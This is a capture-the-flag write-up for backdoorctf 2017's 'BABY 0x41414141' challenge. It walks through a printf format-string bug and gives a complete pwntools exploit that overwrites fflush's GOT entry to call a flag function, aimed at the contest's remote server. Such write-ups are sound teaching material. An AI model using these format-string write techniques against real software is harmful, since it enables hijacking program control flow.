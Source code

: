 ```yaml
---
title: backdoorctf 2017 - BABY 0x41414141 Writeup
date: '2017-09-24'
lastmod: '2023-07-03T19:19:24+02:00'
categories:
- writeup
- backdoorctf17
tags:
- pwn
authors:
- malweisse
---
```


Executing the binary for the first time we have this behaviour:

<img class="img-responsive" src="/backdoorctf17/baby-1.png" alt="Screenshot showing program prompt to enter user name" width="603" height="83">

Ok, cool, decompile it.

This is the main function:

<img class="img-responsive" src="/backdoorctf17/baby-2.png" alt="Code snippet showing decompiled main() function with vulnerable printf() and fflush() calls" width="603" height="204">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img class="img-responsive" src="/backdoorctf17/baby-3.png" alt="Screenshot of decompiler showing 'flag(void)' function definition, which executes cat flag.txt" width="603" height="238">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints `0x41414141`.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that `%n` writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

```python
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()
```
